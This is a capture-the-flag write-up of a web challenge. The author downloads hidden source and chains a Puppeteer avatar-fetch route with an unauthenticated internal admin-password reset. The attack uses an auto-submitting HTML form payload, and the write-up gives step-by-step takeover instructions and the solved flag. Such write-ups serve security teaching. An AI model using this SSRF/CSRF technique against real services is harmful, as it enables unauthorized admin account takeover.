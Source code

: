 # metal-gear-interface

[library.m0unt41n.ch/challenges/metal-gear-interface](https://library.m0unt41n.ch/challenges/metal-gear-interface) ![](../../resources/web.svg) ![](../../resources/hard.svg) 

# TL;DR

This is a fully remote challenge. We get presented with an interface where we can
register, login and see some status pages. The challenge text:

> _This is Big Boss... I see you have found a way to access the Metal Gear._
> _Make sure to stop it by stealing the Nuclear codes. Spies were able to_
> _confirm that Documentation of the innerworkings of the Metal Gear are_
> _somewhere on the Controlpanel.<br>...<br>Over_

The app uses React, Webpack and couple of other things I have zero idea about &#128578;

# Analysis

## Register a user

We don't have an initial login, but there is a `Register` button - we can create
`test`/`test` user and login as such. Then, there is a simple web app, where the
only meanginful functionality seems to be setting an "avatar" - preset to a simple
image hosted on imgur.com, which we set to a
[cute monkey](https://i.imgur.com/epEBxza.png) instead.

## Inspect the source

First thing that came to mind was looking at the Firefox debug console. There were
plenty of `.ts`, `.tsx` and `.js` files floating around:

![](debug_view.png "")

I downloaded everything that I saw in `Debugger` and `Network` consoles.

## _Download_ the source

Then, in `Webpack/Pages/documentation.tsx` I found:

```typescript
export default function Documentation() {
  const { user, mutateUser } = useUser({
    redirectTo: "/login",
  });

  const router = useRouter();

  const [now, setNow] = useState(new Date());
  useEffect(() => {
    const interval = setInterval(() => {
      setNow(new Date());
    }, 1000);
  }, []);

  const deadline = new Date("Jul 22, 2099 20:00:00");

  return (
    <Layout>
      <h1>Documentation</h1>
      {user?.isLoggedIn === true && (now.getTime() > deadline.getTime() ? // only show after 20:00
        <div className="documentation">
          <p>Just in time! Here is the current source code of the Metal Gear Interface™.</p>
          <button onClick={async function handleClick(e) {
            e.preventDefault();
            router.push("/api/documentation");
          }}>Download</button>
        </div> :
        <div>
          <Clock />
          <Countdown deadline={deadline} />
          <p>Now is not the time ⌛</p>
        </div>
      )}
    </Layout>
  );
}
```

This matches the hint:
*Documentation of the innerworkings of the Metal Gear are somewhere on the Controlpanel.*
&#128578; That `Documentation` page displays a countdown clock with `Now is not the time` message
but, from above code, it seems that we can go straight to `/api/documentation` to get it.
And sure enough - that results in `archive.zip` download!

## Getting the code to work locally

A simple `docker build -t api:latest .` did not work - or it worked, but produced
an app that threw exceptions on the console. I had to add few extra params:

```Dockerfile
ENV DATABASE_URL="file:/app/db.sqlite"
ENV SECRET_COOKIE_PASSWORD="CAFEBABECAFEBABECAFEBABECAFEBABE"
ENV ADMIN_PASSWORD="blah"
ENV FLAG="shc2024{blah}"
```

Looking at `pages/api/documentation.ts`, this could be because that ZIP archive
is created on the fly, skipping some sensitive files - plus, "dev vs prod" difference.
In any case, with these changes, the app worked just fine at port `3000`:

```bash
docker run -p 3000:3000 -it api:latest
```

## Closer look

Now that we have a source and a locally running app, we can have a closer look.

### The flag

The flag is accessible with `Show nuclear codes` functionality, when logged in as
admin (confirmed by changing the password in SQLite DB):

```typescript
async function flag(req: NextApiRequest, res: NextApiResponse) {
    const flag = process.env.FLAG;
    res.json({ flag });
}
```

### Password reset

We notice that there is an **additional** admin panel at port `8080`, not accessible
from the outside, which is a trivial POST form, allowing **reset of the admin password**.

Even better, that **works without any auth!** &#128512; (verified by exporting port `8080` outside
of the local container)

### "Nuke the avatar"

Another suspicious functionality here:

```typescript
async function nukeRoute(req: NextApiRequest, res: NextApiResponse) {
    if (req.session.user) {
        try {
            const browser = await puppeteer.launch({
                executablePath: '/usr/bin/google-chrome',
                args: ['--no-sandbox', '--disable-gpu']
            });
            const page = await browser.newPage();
            console.log("Nuking ", req.session.user.avatarUrl);
            await page.goto(req.session.user.avatarUrl, { waitUntil: 'networkidle0' });
            await page.waitForTimeout(5000); // visits the website for 5 seconds
            await browser.close();
            // (...)
```

Hang on. This is pretty much... launching a browser and going to `user.avatarUrl`! &#128512;

That makes it clear what the attack vector is: we have to get this Puppeteer
browser to reset admin's password

## Resetting admin password

So, we have control over an URL that an internal browser will go to. There are some
restrictions for it:

```javascript
function checkUrl(url: string) {
    var pattern = /^[a-zA-Z0-9\-:./]+$/; // no shenanigans!
    return isUrlHttp(url) && pattern.test(url);
}
```

... so, any bookmarklet magic is off the table. But a plain HTML page should do.

At first, I really overcomplicated this - the challenge is marked as `hard`, so
I assumed that this will be some complex XSS/CORS/CSP bypassing. I tried feeding all
kinds of Javascript, making `fetch()` requests from within, etc. etc. And all that
indeed failed because of XSS protections.

But it's proven to be much simpler:

```html
<html>
  <body>
    <form method='POST' action='http://localhost:8080/reset'>
      <input type='hidden' name='password' value='adminpass'/>
      <button type='submit' id='submit'>Reset</button>
    </form>
    <script>
      document.addEventListener('DOMContentLoaded', function () {
          document.getElementById('submit').click();
      });
    </script>    
  </body>
</html>
```

Yes, HTML forms are apparently not subject to same-site-policy &#128512;

## Full hack

1.  Put above HTML at a known public address `http://someplace.com/reset.html`
1.  Start a fresh instance of the challenge
1.  Register a `test` user and login as such
1.  Change avatar to `http://someplace.com/reset.html`
1.  Trigger `Nuke the avatar`, wait few seconds (it will return to the profile menu)
1.  Logout, Login as `admin` with password `adminpass`
1.  Click on `Show nuclear codes`

This worked inside my local environment. It was not guaranteed to work in the remote
one, as it wasn't obvious that it has external network access. But it did &#128512;

![](flag.gif "")

---

## `shc2023{th3_nuc13ar_c0d3s_4r3_14823_5ecec5786f6c0a6b}`



<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
